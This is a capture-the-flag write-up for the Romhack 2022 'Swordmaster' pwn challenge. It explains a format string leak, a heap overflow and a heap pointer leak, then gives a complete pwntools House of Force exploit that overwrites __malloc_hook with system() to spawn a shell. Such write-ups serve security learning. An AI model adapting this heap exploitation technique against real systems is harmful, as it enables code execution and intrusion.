










# Romhack 2022 - Swordmaster

Category: **Pwn**

Difficulty: **Medium**

## Files

We are provided with the binary and a **glibc** folder containing the dynamic linker `ld-linux-x86-64.so.2` and the `libc.so.6`.

## Binary

Running the `file` and `checksec` commands on the binary, reveals that it's a **64-bit ELF** with all the protections enabled.


Let's run it!

## ./swordmaster

Running the binary asks for a name and then we get to choose a class.



Then we are presented with a menu and have **4 energy** at our disposal to perform several actions.



After playing around a little and testing out all the options, nothing seems too suspicious but a lot is going on, so instead of trying to break the program randomly let's fire up **Ghidra** and start analyzing it.

## Ghidra

### Vulnerability #1

First thing to notice is that the class prompt has a default behavior for when the input is not one of the values 1, 2 or 3, which suffers from a **format string** vulnerability, as no format string parameter is specified.


We have a **leak**! That was fast. Let's inspect the rest of the binary.

### Vulnerability #2

Upon checking the option `1. Craft sword` we can see that it asks the user for a number and then allocates, using **malloc()**, a buffer of that size. Not only that, but it also allows the user to write into that buffer `size_of_buffer + 8` bytes, thus causing a **buffer overflow** vulnerability.

This is a malloc() allocated buffer though, so we' re in **heap** territory.




### Vulnerability #3

This one was also obvious, but it was easier to miss. The option `5. Change name` is supposed to allow us to change class, but doesn't work as we would expect the first time it's called.

If the variable **time.3718** is less than 1, (it's set to 0 at first and then it's increased to 1 ~ checked in gdb) the program allocates 2 buffers and **writes the address of the 2nd buffer in** `param_1 + 0x30` (param_1 is a struct that stores the player's information, such as name, class, etc).


After that it frees the buffers. Seems random, I know, but I'll take it! 

Now if we take a look at the code for option `3. Show stats`:




It prints the value of `param_1 + 0x30`, the exact same address that the buffer address was saved at. Let's test it.



Boom! We got a **heap leak**.

## Welcome to heap

Having no experience at all with heap vulnerabilities, I started investigating at this point for possible attacks.

One of the first things I bumped into was the **House of Force** attack.

This attack requires:

- The ability to control the value of the **top chunk** through an overflow.
- The ability to control the size of the **heap allocation size**.
- Being able to call malloc() subsequently.

This looks promising.. We have a **heap overflow** vulnerability on the last allocated chunk, we control the **size** of the allocated buffers and we can perform this action multiple times since we have **4 energy**. Let's dive deeper..

## House of Force attack

How does **HOF** work though? This attack assumes overwriting the top chunk through an overflow, modifying it to a **very large** value. The value of the top chunk indicates the size of the remaining unused heap space, so if we were to overwrite it with `0xffffffffffffffff` (the biggest possible value) the program would assume the whole virtual address space as valid for heap allocation. Through the use of malloc(), which returns a pointer to the allocated memory, we can **write data arbitrarily** (write-what-where principle).

## Attack plan

Our best bet here seems to be **spawning a shell** by overwriting **__malloc_hook()** with **system()**. To achieve that we will have to first overwrite the top chunk with `0xffffffffffffffff`. Up until *GLIBC version 2.28* there is no **integrity check** for the size of the top chunk. We are on version *2.27* as you can see below, so we can write any value to it without any problem.


The next malloc() call can now allocate **as much space** as we want. We will use that to move the top chunk **right before** the address of __malloc_hook(), so that the next malloc() call will point to the address of __malloc_hook(). Since we also control what's written into the buffer, we can overwrite __malloc_hook() with system() and our next call to malloc() will now call system(). We also need to pass a pointer to **"/bin/sh"** as argument to the last malloc(). Let's take it step by step.

## Exploitation

### LIBC base

First things first, let's find the **address of __malloc_hook()**. Since we already have a heap leak we can use the **format string** vulnerability to get a **libc leak**. After some testing, the **13th** leak of **printf()** seems to point to a libc address.


Now let's check the address in **gdb**.


Yeap. It's a libc address with an offset of `0x21c87` from the base, so let's get the **libc base**.

*At the class prompt:*

```python
## Leak libc address
io.sendlineafter(">> ", "%13$p")
leak1 = int(io.recvuntil('class!').split()[4], 16) - 0x21c87
log.info(f"libc base: {hex(leak1)}")
```

Since we're here let's also grab the heap leak and calculate the base.

### Heap base

*At the menu prompt:*

```python
## Leak heap address
io.sendlineafter(">> ", "5")
io.sendlineafter(">> ", "3")
io.recvuntil("Class: ")
leak2 = unpack(io.recvline().strip().ljust(8, b"\x00")) - 0x12d0
log.info(f"heap base: {hex(leak2)}")
```

Aight. Let's get to the good part.

### Top chunk overflow

Let's have a look at the heap chunks in **gdb** with `vis` command before allocating anything ourselves.



Ok, now let's allocate a chunk with option `1. Craft sword`.

Here I made a helper malloc() function to simplify things. It takes as arguments the **size** of the buffer to be allocated and the **data** to be written in the buffer, respectively.

```python
def malloc(size, data):
	io.sendlineafter(">> ", "1")
	io.sendlineafter(">> ", f"{size}")
	if data:
		io.sendafter(">> ", data)
```

We will send **24 bytes** and overflow with `0xffffffffffffffff` to see how the heap changes. The minimum size that malloc() can allocate is **24 bytes plus 8 bytes** for the **size field**. So we're expecting the top chunk to move at address `0x556b9499b320 + 0x20 = 0x556b9499b340`.

```python
malloc(24, b"A" * 24 + b"\xff" * 8)
```



Good. As you can see the **top chunk is overflowed** and located at the address we expected. The next malloc() call can now be of **whatever size** we want.

### Arbitrary heap allocation (write-what-where)

We need it to be at the address of `__malloc_hook - 0x8` so that the next call to malloc() will return a pointer to __malloc_hook(). Let's calculate the **distance size** we need to feed malloc() to move the top chunk right before malloc hook.

Some things to notice:

- libc is mapped on a **higher memory** area than the heap
- the current top chunk offset from the heap base is `0x1340`
- the current top chunk is actually located at `0x556b9499b340 + 0x8`
- we need to account for the **size field** and the **allignment** (if any) when calculating where the top chunk will land. If the malloc size plus the header isn't a **multiple of 16**, malloc will allign the chunk by **adding 8** more bytes.

So according to the above, the distance will be equal to:

`(__malloc_hook_address - 0x8) - (heap_base + 0x1340 + 0x8 + 0x10)`


I know it's a little bit confusing but that was the hard part I promise.

Now if we did everything right, the top chunk should land at `__malloc_hook - 0x8`


In this example is the address `0x7f6399debc28`.

Let's allocate a buffer of size equal to distance and see what happens to the heap.

```python
distance = (libc.sym.__malloc_hook - 0x8) - (heap + 0x1340 + 0x8 + 0x10)
malloc(distance, "")
```



Perfect! As you can see the top chunk successfully moved in the libc address space and at the expected address too.

While at it, let's also write the **"/bin/sh"** string in the buffer to use it later.

```python
distance = (libc.sym.__malloc_hook - 0x8) - (heap + 0x1340 + 0x8 + 0x10)
malloc(distance, "/bin/sh\0")
```

This should be at offset `0x1340 + 0x10` from the **heap base**.


### __malloc_hook() overwrite

Now it's finally time to overwrite __malloc_hook() with system().

```python
malloc(24, p64(libc.sym.system))
```

Simple as that.

First, let's make sure that malloc() returns a pointer to __malloc_hook().



Okay! At this point __malloc_hook() points to **null**. Let's write system() in the buffer and see if we can make __malloc_hook() **point to system()**.



Done! I don't even need to keep going..

(Jk. Now is the best part.)

### malloc("/bin/sh")

Last but not least, let's call `malloc("/bin/sh")`. malloc() now will call system() and we just need to pass as the first argument the **pointer to "/bin/sh"** from earlier. Leave the data argument empty here.

```python
malloc(heap + 0x1350, "")
```

Aaaanddd....


-  

-  

-  

-  


-  

-  

-  

-  


**pwned** !

Here is the full exploit:

```python
#!/usr/bin/python
from pwn import *
elf = context.binary = ELF("./swordmaster", checksec=False)
libc = ELF('./glibc/libc.so.6', checksec=False)
context.terminal = ['alacritty', '-e']
context.encoding = 'ascii'
context.gdbinit = '~/.config/gdb/.gdbinit'

gs = \
'''
b *main+720
'''

IP = ""
PORT = -1

def start(logging='notset'):
	if args.GDB:
		return gdb.debug(elf.path, gdbscript=gs)
	elif args.REMOTE:
		return remote(IP, PORT, level=logging)
	else:
		return process(elf.path, level=logging)
	
def malloc(size, data):
	io.sendlineafter(">> ", "1")
	io.sendlineafter(">> ", f"{size}")	
	if data:
		io.sendafter(">> ", data)
	
def pwn():
	global io
	io = start('error')

	# Input name
	io.sendlineafter(": ", "kurosu")

	# Leak libc address
	io.sendlineafter(">> ", "%13$p")
	libc.address = int(io.recvuntil('class!').split()[4], 16) - 0x21c87
	log.info(f"libc base: {hex(libc.address)}")

	# Leak heap address
	io.sendlineafter(">> ", "5")
	io.sendlineafter(">> ", "3")
	io.recvuntil("Class: ")
	heap = unpack(io.recvline().strip().ljust(8, b"\x00")) - 0x12d0
	log.info(f"heap base: {hex(heap)}")

	# House of Force attack
	malloc(24, b"A" * 24 + b"\xff" * 8)
	distance = (libc.sym.__malloc_hook - 0x8) - (heap + 0x1340 + 0x8 + 0x10)
	malloc(distance, b"/bin/sh\0")
	malloc(24, p64(libc.sym.system))
	malloc(heap + 0x1350, "")
	io.interactive()
	io.close()

if __name__ == "__main__":
	pwn()
```
